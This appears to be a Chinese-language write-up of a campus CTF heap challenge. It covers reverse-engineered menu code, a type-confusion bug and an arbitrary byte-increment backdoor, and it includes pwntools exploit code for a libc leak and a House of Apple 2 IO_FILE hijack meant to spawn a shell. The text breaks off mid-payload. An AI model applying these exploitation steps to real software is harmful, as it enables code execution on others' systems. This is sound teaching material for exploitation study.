






## 前言

本次校赛中，这道堆利用题目涉及了 Glibc 2.31 下的类型混淆与 House of Apple 2 利用链，整体构造较为巧妙，值得深入复盘分析。相比之下，另外几道格式化字符串题目偏向基础，因此本篇着重记录此题的完整调试与 Exploit 构造过程

## 资源下载

 

复现本题所需的原始二进制文件及动态库已打包，请在 Ubuntu 22.04 虚拟机环境下食用： 

 -[⬇️ 下载题目文件 (attachment-35)](./file/attachment-35) 

 -[📄 下载动态库 (attachment-35.so)](./file/attachment-35.so) 



## 题目分析

## 程序分析

### 核心交互机制

程序分为**教师**和**学生**两个操作域，通过 `dword_5010` 存放身份标识符，公共函数 `sub_1E62()` 用于切换身份

**教师专属功能：** 

-  创建学生 ` ---> sub_1424()` 

-  给所有学生打分 `---> sub_1538()` 
-  写评语 `---> sub_1691()` 
-  删除学生 `---> sub_1875()` 
-  创建0x300大小堆块(malloc) `---> sub_1AC3()` 

**学生专属功能：**（注：`sub_1A34` 为无用输出函数） 

-  输出学生评语 `---> sub_1C5B()` 
-  异或 `lazy` 标识 `---> sub_1E03()` 
-  `mode` 状态设置 `---> sub_1B05()` 
-  切换学生 `---> sub_1EBB()`

为了方便后续理解，这里提前给出**管理 Chunk** 和**学生 Chunk** 的内存布局

~~~text
================ 管理 Chunk (0x20) ================
0x00 学生chunk_addr      | 0x08 
0x10 mode_chunk(0x20)   | 0x18 lazy_flag    | 0x1C show_comment_flag

================ 学生 Chunk (0x18) ================
0x00 q_num | 0x04 score	| 0x08 comment_chunk_addr  
0x10 comment_chunk_size
~~~

### 菜单

~~~C
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  unsigned int v4; // [rsp+0h] [rbp-20h]
  char buf[10]; // [rsp+Eh] [rbp-12h] BYREF
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  sub_123A(a1, a2, a3);
  printf("role: <0.teacher/1.student>: ");
  __isoc99_scanf("%d", &dword_5010);
  while ( 1 )
  {
    while ( !dword_5010 )
    {
      sub_1392();
      printf("choice>> ");
      read(0, buf, 2uLL);
      switch ( atoi(buf) )
      {
        case 1:
          sub_1424();
          break;
        case 2:
          sub_1538();
          break;
        case 3:
          sub_1691();
          break;
        case 4:
          sub_1875();
          break;
        case 5:
          dword_5010 = sub_1E62();
          break;
        case 6:
          sub_1AC3();
        default:
          continue;
      }
    }
    v4 = 0;
    if ( !dword_503C )
      break;
    while ( dword_5010 == 1 )
    {
      sub_13D5();
      printf("choice>> ");
      read(0, buf, 2uLL);
      switch ( atoi(buf) )
      {
        case 1:
          sub_1A34(v4);
          break;
        case 2:
          sub_1C5B(v4);
          break;
        case 3:
          sub_1E03(v4);
          break;
        case 4:
          sub_1B05(v4);
          break;
        case 5:
          dword_5010 = sub_1E62();
          break;
        case 6:
          v4 = sub_1EBB();
          break;
        default:
          continue;
      }
    }
  }
  puts("no student yet");
  return 0LL;
}
~~~

### 创建学生

整个程序除了 `sub_1AC3()` 用了 `malloc` 其他所有地方都用了 `calloc` 

创建一个`管理chunk(0x20)`，一个`学生chunk(0x18)`，创建时要求输入一个 `0-9` 的数字，放入`学生chunk`的 `0-4` 字节处，`管理chunk` 存入全局数组，下标为当前学生数量

~~~C
unsigned __int64 sub_1424()
{
  _DWORD v1[2]; // [rsp+8h] [rbp-28h] BYREF
  _QWORD *v2; // [rsp+10h] [rbp-20h]
  void *v3; // [rsp+18h] [rbp-18h]
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  v1[1] = 0;
  v1[0] = 0;
  if ( (unsigned int)dword_503C <= 6 )
  {
    v2 = calloc(1uLL, 0x20uLL);
    v3 = calloc(1uLL, 0x18uLL);
    *v2 = v3;
    qword_5080[dword_503C++] = v2;
    printf("enter the number of questions: ");
    __isoc99_scanf("%d", v1);
    if ( v1[0] <= 9 && v1[0] > 0 )
    {
      *(_DWORD *)*v2 = v1[0];
      puts("finish");
    }
    else
    {
      puts("wrong input!");
    }
  }
  else
  {
    puts("No more students!");
  }
  return __readfsqword(0x28u) ^ v4;
}
~~~

### 学生打分

首先 `buf[0]` 会等于 `0-127` 中的一个数字，然后`score ---> buf[0] % (q_num * 10)` ，分数会写入 `学生chunk` 的 `4-8`字节处，如果当前学生`lazy`标识为1，则该学生的分数会等于当前值 - 10

~~~C
unsigned __int64 sub_1538()
{
  unsigned int i; // [rsp+8h] [rbp-18h]
  int v2; // [rsp+Ch] [rbp-14h]
  _BYTE buf[8]; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  puts("marking testing papers.....");
  for ( i = 0; i < dword_503C; ++i )
  {
    if ( read(fd, buf, 8uLL) != 8 )
    {
      puts("read_error");
      exit(-1);
    }
    buf[0] &= ~0x80u;
    v2 = buf[0] % (10 * **(_DWORD **)qword_5080[i]);
    printf("score for the %dth student is %d\n", i, v2);
    if ( *(_DWORD *)(qword_5080[i] + 24LL) == 1 )
    {
      puts("the student is lazy! b@d!");
      v2 -= 10;
    }
    *(_DWORD *)(*(_QWORD *)qword_5080[i] + 4LL) = v2;
  }
  puts("finish");
  return __readfsqword(0x28u) ^ v4;
}
~~~

### 写评语

往 `学生chunk` 的 `8-16` 字节处写入 `comment_chunk ，`16-24` 字节处写入 `comment_chunk_size` ，大小最大 `1023` 字节

~~~C
unsigned __int64 sub_1691()
{
  __int64 v0; // rbx
  int v2; // [rsp+10h] [rbp-20h] BYREF
  int v3; // [rsp+14h] [rbp-1Ch] BYREF
  unsigned __int64 v4; // [rsp+18h] [rbp-18h]

  v4 = __readfsqword(0x28u);
  v2 = 0;
  v3 = 0;
  printf("which one? > ");
  __isoc99_scanf("%d", &v3);
  if ( *(_QWORD *)(*(_QWORD *)qword_5080[v3] + 8LL) )
  {
    puts("enter your comment:");
    read(0, *(void **)(*(_QWORD *)qword_5080[v3] + 8LL), *(int *)(*(_QWORD *)qword_5080[v3] + 16LL));
    puts("finish");
  }
  else
  {
    printf("please input the size of comment: ");
    __isoc99_scanf("%d", &v2);
    if ( v2 <= 1023 && v2 > 0 )
    {
      v0 = *(_QWORD *)qword_5080[v3];
      *(_QWORD *)(v0 + 8) = calloc(1uLL, v2);
      puts("enter your comment:");
      read(0, *(void **)(*(_QWORD *)qword_5080[v3] + 8LL), v2);
      *(_DWORD *)(*(_QWORD *)qword_5080[v3] + 16LL) = v2;
      puts("finish");
    }
    else
    {
      puts("wrong length :'(");
    }
  }
  return __readfsqword(0x28u) ^ v4;
}
~~~

### 删除学生

按照先后顺序依次释放 `comment_chunk`，`学生chunk`，`管理chunk`，最后把全局数字对应下标清零，学生数量 - 1

~~~C
unsigned __int64 sub_1875()
{
  unsigned int v1; // [rsp+8h] [rbp-18h]
  char buf[10]; // [rsp+Eh] [rbp-12h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("only 3 chances to call parents!");
  if ( dword_5014 )
  {
    --dword_5014;
    if ( dword_503C )
    {
      puts("which student id to choose?");
      read(0, buf, 5uLL);
      v1 = atoi(buf);
      if ( v1 <= 9 && qword_5080[v1] )
      {
        printf("bad luck for student %d! Say goodbye to him/her!", v1);
        if ( *(_QWORD *)(*(_QWORD *)qword_5080[v1] + 8LL) )
          free(*(void **)(*(_QWORD *)qword_5080[v1] + 8LL));
        free(*(void **)qword_5080[v1]);
        free((void *)qword_5080[v1]);
        qword_5080[v1] = 0LL;
        --dword_503C;
      }
      else
      {
        puts("please watch carefully :)");
      }
    }
    else
    {
      puts("add some students first!");
    }
  }
  else
  {
    puts("no you can't");
  }
  return __readfsqword(0x28u) ^ v3;
}
~~~

### malloc_0x300

这个没啥好讲的

~~~C
void __noreturn sub_1AC3()
{
  void *v0; // [rsp+8h] [rbp-8h]

  puts("never pray again!");
  v0 = malloc(0x300uLL);
  sub_1A58(0LL, v0, 768LL);
  exit(-1);
}
~~~

### 共有:切换身份

~~~C
__int64 sub_1E62()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("role: <0.teacher/1.student>: ");
  __isoc99_scanf("%d", &v1);
  return v1;
}
~~~

### 输出学生评语

一个小后门，假如当前学生的分数大于 `89` 就会输出这个学生对应的 `学生chunk` 地址，并且让一个我们传入的地址的值 +1，后面是正常输出学生评语，当我们触发后门时，它会给 `管理chunk` 的 `0x1C` 写入 1 后面该学生不会在触发输出评语函数

注意读取地址时的 `sub_131A()` 函数，它会把我们输入的最后一个字符改为 `0`，假设我们输入 `123456\n ---> 12345\0\n` ，我们需要多输入一个字符跳过这个坑

~~~C
unsigned __int64 __fastcall sub_1C5B(int a1)
{
  _BYTE *v1; // rax
  char nptr[24]; // [rsp+20h] [rbp-20h] BYREF
  unsigned __int64 v4; // [rsp+38h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  if ( *(_DWORD *)(qword_5080[a1] + 28LL) == 1 )
  {
    puts("already gained the reward!");
  }
  else
  {
    if ( *(_DWORD *)(*(_QWORD *)qword_5080[a1] + 4LL) > 0x59u )
    {
      printf("Good Job! Here is your reward! %p\n", (const void *)qword_5080[a1]);
      printf("add 1 to wherever you want! addr: ");
      sub_131A(0LL, nptr, 16LL);
      v1 = (_BYTE *)atol(nptr);
      ++*v1;
      *(_DWORD *)(qword_5080[a1] + 28LL) = 1;
    }
    if ( *(_QWORD *)(*(_QWORD *)qword_5080[a1] + 8LL) )
    {
      puts("here is the review:");
      write(1, *(const void **)(*(_QWORD *)qword_5080[a1] + 8LL), *(int *)(*(_QWORD *)qword_5080[a1] + 16LL));
    }
    else
    {
      puts("no reviewing yet!");
    }
  }
  return __readfsqword(0x28u) ^ v4;
}

char *__fastcall sub_131A(int a1, char *a2, int a3)
{
  char *result; // rax
  int i; // [rsp+1Ch] [rbp-4h]

  read(a1, a2, a3);
  for ( i = 0; a2[i] != 10; ++i )
    ;
  a2[i - 1] = 0;
  result = &a2[a3];
  *result = -61;
  return result;
}
~~~

### 异或lazy标识

~~~C
int __fastcall sub_1E03(int a1)
{
  puts("prayer...Good luck to you");
  *(_DWORD *)(qword_5080[a1] + 24LL) ^= 1u;
  return puts("finish");
}
~~~

### mode函数

假如当前学生的 `lazy` 标识不为1 就会往 `管理chunk` 的 `16-24` 字节写入 `mode_chunk` ，假如标识为1往 `管理chunk` 的 `16` 字节写入一个整数

~~~C
unsigned __int64 __fastcall sub_1B05(int a1)
{
  __int64 v1; // rbx
  unsigned int v3; // [rsp+14h] [rbp-1Ch] BYREF
  unsigned __int64 v4; // [rsp+18h] [rbp-18h]

  v4 = __readfsqword(0x28u);
  if ( *(_DWORD *)(qword_5080[a1] + 24LL) != 1 )
  {
    if ( !*(_QWORD *)(qword_5080[a1] + 16LL) )
    {
      v1 = qword_5080[a1];
      *(_QWORD *)(v1 + 16) = calloc(1uLL, 0x20uLL);
    }
    puts("enter your mode!");
    read(0, *(void **)(qword_5080[a1] + 16LL), 0x20uLL);
    goto LABEL_8;
  }
  puts("enter your pray score: 0 to 100");
  __isoc99_scanf("%d", &v3);
  if ( v3 <= 0x64 )
  {
    *(_BYTE *)(qword_5080[a1] + 16LL) = v3;
LABEL_8:
    puts("finish");
    return __readfsqword(0x28u) ^ v4;
  }
  puts("bad!");
  return __readfsqword(0x28u) ^ v4;
}
~~~

### 切换学生

~~~C
__int64 sub_1EBB()
{
  int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("input your id: ");
  __isoc99_scanf("%d", &v1);
  if ( !qword_5080[v1] || v1 > 6 )
  {
    puts("RUA alien?");
    exit(-1);
  }
  printf("hello, student %d\n", v1);
  return (unsigned int)v1;
}
~~~

## 关键漏洞点分析

整体程序大量使用了 `calloc` 分配内存，排除了常规的直接利用未初始化内存的数据残留

###  任意地址 +1 与 堆地址泄露 (sub_1C5B)

在 **输出学生评语** 功能中存在一个后门，如果当前学生的分数大于 `89`，程序会泄露该学生对应的 `管理 Chunk` 地址，并允许向我们传入的任意地址执行字节加法 `---> ++*v1`

**注意** 读取目标地址时的 `sub_131A()` 函数存在问题，它会将输入的倒数第二个字符（即 `\n` 前的字符）截断为 `\0`。例如输入 `123456\n` 会变成 `12345\0\n`。因此在构造 Payload 时，需要在末尾多填充一个无用字符以保护有效地址。

###  类型混淆导致的有限越界写 (sub_1B05)

在 `mode` 函数中：

- 当 `lazy != 1` 时，程序会在 `管理 Chunk` 的 `16-24` 字节处分配一个 `mode_chunk` 并写入数据。
- 当 `lazy == 1` 时，程序会要求输入一个 `0-100` 的整数，并直接将其作为一个字节（Byte）写入 `管理 Chunk` 的第 16 字节处。

这里存在严重的**类型混淆**。如果我们在 `lazy != 1` 时创建了 `mode_chunk`（例如地址为 `0x...2e367340`），随后将 `lazy` 翻转为 `1`，就可以通过输入 `0-100` 覆盖该指针的最低字节（例如将 `40` 改为其他值）。配合 `lazy == 0` 时对 `mode_chunk` 的正常读写，这就形成了一个**局限的任意地址写**漏洞。

回看前面给出的**管理 Chunk** 和**学生 Chunk** 的内存布局，假如堆布局完成的足够好，完全可以利用 `mode_chunk` 修改 `comment_chunk_addr` 将这个**局限的任意地址写** 变为 **任意地址写**

## 利用思路

由于程序限制了 `comment_chunk` 的最大大小为 `1023` 字节（加上 Chunk 头最大为 `0x410`），在常规情况下（Tcache 未满）这些被释放的块会进入 `Tcache Bin`，无法直接暴露出 `main_arena` 来泄露 libc 基址

结合发现的漏洞点，可以构造如下利用链

1. **突破 Tcache 限制：** 利用 `sub_1C5B` 函数中分数 > 89 触发的**任意地址字节 +1** 功能。我们可以先布局一个大小为 `0x330` 的堆块，通过该功能将其 Size 字段从 `0x3` 修改为 `0x4`（变为 `0x430`）。当释放该块时，由于大小超过了 `Tcache` 的上限，它将直接被送入 `Unsorted Bin`
2. **指针劫持实现任意写：** 利用 `mode` 函数的类型混淆（修改指针尾字节），让 `mode_chunk` 的指针与 `学生 Chunk` 发生重叠。通过对 `mode_chunk` 写入，篡改 `学生 Chunk` 中的 `comment_chunk_addr`
3. **泄露 Libc 基址：** 将 `comment_chunk_addr` 指向我们之前构造好并放入 `Unsorted Bin` 的堆块，再调用 **输出学生评语** 函数，即可顺利泄露 `main_arena + 96` 的地址，计算出 `Libc` 基址
4. **House of Apple 2 劫持控制流：** 在获取到 `libc`基址 和 堆基址后，由于目标环境为 `Glibc 2.31`，我们可以采用 `IO_FILE` 结合宽字符流（`House of Apple 2`）的方式，绕过高版本的 `vtable` 检查并最终劫持程序执行流

那么怎么让分数大于89呢？正常来说是做不到的，因为 `v2 = buf[0] % (10 * **(_DWORD **)qword_5080[i])` 翻译一下 `v2 = buf[0] % (10 *  q_num` 我们传入的 `q_num` 最大为 `9` ，也就是说 `v2 = 0~127 % 0-90` 这个最大的值是 `89` ，无论如何我们都不可能大于 `89`

我们需要借用 `lazy` 标识 来让分数 `-= 10` ，让分数为负数，负数转换成正数肯定比 `89` 大，那么我们在传入 `q_num` 就要是 `1`，这样 `v2 = (0~9) - 10 < 0`，就能完成了

### 泄露libc基址与堆基址

~~~python
#程序功能封装
def change(role):
    io.sendlineafter(b'choice>> ',b'5')
    io.sendlineafter(b'role: <0.teacher/1.student>:',str(role))

def tea_add(num):
    io.sendlineafter(b'choice>> ',b'1')
    io.sendlineafter(b'of questions:',str(num))
    io.recvuntil(b'finish\n')

def tea_score():
    io.sendlineafter(b'choice>> ',b'2')
    io.recvuntil(b'finish\n')

def tea_comment(index,size,content):
    io.sendlineafter(b'choice>> ',b'3')
    io.sendlineafter(b'which one? > ',str(index))
    if io.recvuntil(b'enter your comment:\n',timeout=1):
        io.sendline(content)
        io.recvuntil(b'finish\n')
    else:
        io.sendlineafter(b'the size of comment: ',str(size))
        io.sendlineafter(b'enter your comment:\n',content)
        io.recvuntil(b'finish\n')

def tea_free(index):
    io.sendlineafter(b'choice>> ',b'4')
    io.sendlineafter(b'id to choose?\n',str(index))
    io.recvuntil(b'Say goodbye to him/her!')

def stu_id(index):
    io.sendlineafter(b'choice>> ',b'6')
    io.sendlineafter(b'input your id:',str(index))
    io.recvuntil(f"hello, student {str(index)}")

def stu_show(addr):
    io.sendlineafter(b'choice>> ',b'2')
    if io.recvuntil(b'Good Job! Here is your reward!',timeout=1):
        heap_addr = int(io.recvuntil(b'\n',drop=True),16)
        io.sendlineafter(b'you want! addr: ',str(addr))
        return heap_addr

def stu_pray():
    io.sendlineafter(b'choice>> ',b'3')
    io.recvuntil(b'finish\n')

def stu_mode(content):
    io.sendlineafter(b'choice>> ',b'4')
    if io.recvuntil(b'enter your mode!',timeout=1):
        io.sendline(content)
        io.recvuntil(b'finish\n')
    elif io.recvuntil(b'enter your pray score: 0 to 100\n',timeout=1):
        io.sendline(content)
        io.recvuntil(b'finish\n')
        
~~~

我们先创建一个学生(`stu_0`)，并给他写上评语，大小为0x328，这就是我们后面需要修改的size的chunk

~~~python
tea_add(1)
tea_comment(0,0x328,b'AAAA')
~~~

然后创建第二个学生(`stu_1`)，把 `mode_chunk` 创建了，这样刚好我们就可以覆盖到  `stu_1` 的 `comment_chunk` 了

~~~python
tea_add(1)
change(1)				#切换到学生模式
stu_id(1)				#选择学生id
stu_mode(b'AAAA')
~~~

接下来创建 `stu_1` 的 `conmment_chunk` 我们在这个部分就需要伪造后续的`chunk`，来绕过释放 `stu_0` 的 `comment_chunk` 时候的检查

~~~python
change(0)														#切换到老师
payload = p64(0) * 15 + p64(0x21) + p64(0) * 3 + p64(0x21)		#提前计算好的payload
tea_comment(1,0x100,payload)									#创建 stu_1 comment_chunk

tea_add(2)
tea_comment(2,0x120,b'AAAA')									#这是后续存放 fake_vtable的堆块,这里提前创建了

change(1)														#切换回学生,id 默认为 0
stu_pray()														#设置 lazy 标识为 1

change(0)														#切换回老师
tea_score()														#完成打分,现在stu_0 -> socre < 0

change(1)														#切换回学生,开始泄露堆基址,接下来不能使用封装的函数!
io.sendlineafter(b'choice>> ',b'2')
io.recvuntil(b'Good Job! Here is your reward!')
leak_addr = int(io.recvuntil(b'\n',drop=True),16)				#获得堆地址
heap_base = leak_addr & ~0xFFF									#将低三位清零就是堆基址

payload = str(leak_addr + 0x49).encode() + b'X'				#将泄露出来的管理chunk地址 加上固定偏移,在传入进去,就完成了伪造chunk_size
io.sendlineafter(b'you want! addr: ',payload)
print(hex(leak_addr))
print(hex(leak_addr + 0x48))
~~~

注意是 `0x49` 不是 `0x48`，多偏移一个字节才能修改 `0x3`，我们可以看一下堆内存，看一下前面部署的能不能通过检查

~~~bash
pwndbg> x/100gx 0x5f216910f2e0
0x5f216910f2e0: 0x0000000000000328      0x0000000000000431
0x5f216910f2f0: 0x0000000a41414141      0x0000000000000000
.....
pwndbg> x/50gx 0x5f216910f700
0x5f216910f700: 0x0000000000000000      0x0000000000000000
0x5f216910f710: 0x0000000000000000      0x0000000000000021
0x5f216910f720: 0x0000000000000000      0x0000000000000000
0x5f216910f730: 0x0000000000000000      0x0000000000000021
#0x5f216910f2e0 + 0x430 ---> 0x5f216910f710,刚好到了我们在 stu_1 comment_chunk 里伪造的chunk
#这个 stu_1 comment_chunk_size 怎么计算呢,首先我们扩展了 0x100 大小,管理chunk + 学生chunk = 0x50,也就是我们的 comment_chunk_size 要大于 0x50,我选了0x100 不会太小也不会太大
~~~

接下来释放掉这个被修改大小的 `chunk` ，让他进入 `unsorted bin`

~~~python
change(0)
tea_free(0)

'''
pwndbg> bins
tcachebins
0x20 [  1]: 0x58e1b126c2d0 ◂— 0
0x30 [  1]: 0x58e1b126c2a0 ◂— 0
fastbins
empty
unsortedbin
all: 0x58e1b126c2e0 —▸ 0x74b12553ebe0 ◂— 0x58e1b126c2e0
smallbins
'''
~~~

我们接着把 `stu_1` 的 学生`chunk` 中的 `comment_chunk_addr` 修改成 `stu_0` 的 `comment_chunk`，就可以泄露libc基址了

~~~python
change(1)
stu_id(1)
stu_pray()						#异或stu_1 的lazy标识符

stu_mode("80")					#前面我们已经创建了 stu_1 的 mode_chunk,现在修改他的尾数为0x50,这样下次编辑就可以修改
								#0x58e1b126c658: 0x000058e1b126c6a0(comment_chunk_addr)

0x58e1b126c610: 0x0000000000000000      				0x0000000000000031
0x58e1b126c620: 0x000058e1b126c650(学生chunk_addr)	   0x0000000000000000
0x58e1b126c630: 0x000058e1b126c670(mode_chunk)      	0x0000000000000000
0x58e1b126c640: 0x0000000000000000      				0x0000000000000021
0x58e1b126c650: 0x0000000300000001      				0x000058e1b126c6a0(comment_chunk_addr)
0x58e1b126c660: 0x0000000000000100(comment_chunk_size)  0x0000000000000031
0x58e1b126c670: 0x0000000a41414141      				0x0000000000000000
0x58e1b126c680: 0x0000000000000000      				0x0000000000000000
0x58e1b126c690: 0x0000000000000000      				0x0000000000000111

pwndbg> x/30gx 0x5fe8b258d600
0x5fe8b258d600: 0x0000000000000000      				0x0000000000000000
0x5fe8b258d610: 0x0000000000000000      				0x0000000000000031
0x5fe8b258d620: 0x00005fe8b258d650      				0x0000000000000000
0x5fe8b258d630: 0x00005fe8b258d650(已被修改)      		 0x0000000000000000
0x5fe8b258d640: 0x0000000000000000      				0x0000000000000021
0x5fe8b258d650: 0x0000000500000001      				0x00005fe8b258d6a0
0x5fe8b258d660: 0x0000000000000100      				0x0000000000000031
0x5fe8b258d670: 0x0000000a41414141      				0x0000000000000000
0x5fe8b258d680: 0x0000000000000000      				0x0000000000000000
0x5fe8b258d690: 0x0000000000000000      				0x0000000000000111

stu_pray()												#将lazy 标识符 还原回去
payload = p64(1) + p64(heap_base+0x2f0) + p64(0x8)		#将 stu_1 comment_chunk_addr 修改
stu_mode(payload)

payload = str(leak_addr + 0x49).encode() + b'X'			#随便找一个位置,别让任何地址 +1 破坏程序
stu_show(payload)

io.recvuntil(b'here is the review:\n')
main_arena = u64(io.recvuntil(b'1. do',drop=True).ljust(8,b'\x00'))-96

print(hex(main_arena))
libc_base = main_arena - 0x10 - libc.sym['__malloc_hook']			#获得libc基址
system_addr = libc_base + libc.sym['system']
IO_list_all = libc_base + libc.sym['_IO_list_all']
IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
log.success(f"libc_base = {hex(libc_base)}")
log.success(f"system_addr = {hex(system_addr)}")
log.success(f"IO_list_all = {hex(IO_list_all)}")
log.success(f"IO_wfile_jumps = {hex(IO_wfile_jumps)}")
~~~

### IO_FILE结构体布局

原理：当程序退出时，会把未写入的缓冲区数据写入，我们伪造 `_IO_write_ptr > _IO_write_base` 表示有数据需要写入，`_IO_write_base = 0`，程序会认为我们没有缓冲区，但是我们要写入数据，所以他会创建一个缓冲区给我们，就是函数`__doallocate`，偏移为0x68，所以我们在`_IO_wfile_jumps`偏移0x68处写入system地址，在结构体头部写入`sh`即可完成攻击

~~~python
file_addr = heap_base + 0x810				#stu_2 的 comment_chunk地址
IO_wide_data_addr=file_addr					#采用空间复用,IO_FILE和IO_WIDE_DATA共用同一块空间(之前学习house of apple2 时的大佬写的)
wide_vtable_addr=file_addr+0xe8-0x68		#IO_WIDE_DATA 偏移0xe0处 是宽字节虚表地址 宽字节虚表 偏移0x68 处是 __doallocate函数
											# 0xe0 - 0x68 + 0x8(这个是虚表地址的长度)
_IO_stdfile_2_lock = file_addr + 0x38		#随便找一个可读可写,初始为0的地址

#第一,fake_io.ljust(0xe8, b'\x00')的原因是为了伪造 IO_FILE 偏移 0xd8 处的虚表(有检查,写入真实的虚表地址)
#第二,fake_io += p64(0) * 2是用来防止fd,bk指针破坏结构,所以上面的fake_io.ljust(0xe8, b'\x00') -> 0xe8 = 0xd8 + 0x10
#第三,p64(system_addr)接着p64(wide_vtable_addr)后面是因为wide_vtable_addr=file_addr+0xe8-0x68

fake_io = b""
fake_io += p64(0) * 2
fake_io += b"  sh;".ljust(8, b'\x00')
fake_io += p64(0)
fake_io += p64(0)  												# _IO_read_end
fake_io += p64(0)  												# _IO_read_base
